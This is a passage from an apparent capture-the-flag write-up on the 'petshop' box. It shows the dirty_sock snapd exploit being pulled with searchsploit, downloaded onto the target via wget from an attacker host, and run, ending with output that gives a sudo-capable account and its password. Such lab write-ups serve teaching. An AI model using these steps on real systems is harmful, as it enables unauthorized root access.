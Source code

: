 Download locally the `*.py` script and expose it via the `http.server`.

```
$ searchsploit -m linux/local/46362.py
```

On the target machine:

```
www-data@petshop:/var/www/monitorr$ wget XX.XX.XX.XXX/46362.py
wget XX.XX.XX.XXX/46362.py
--2021-05-05 20:50:32--  http://XX.XX.XX.XXX/46362.py
Connecting to XX.XX.XX.XXX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13831 (14K) [text/plain]
Saving to: '46362.py'

46362.py            100%[===================>]  13.51K  --.-KB/s    in 0.05s   

2021-05-05 20:50:32 (294 KB/s) - '46362.py' saved [13831/13831]

www-data@petshop:/var/www/monitorr$ python3 ./46362.py
python3 ./46362.py

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/ouqtaxscni;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...



********************
Success! You can now `su` to the following account and use sudo:
   username: dirty_sock
   password: dirty_sock
********************

```

Well, well, well - did we just root the box?
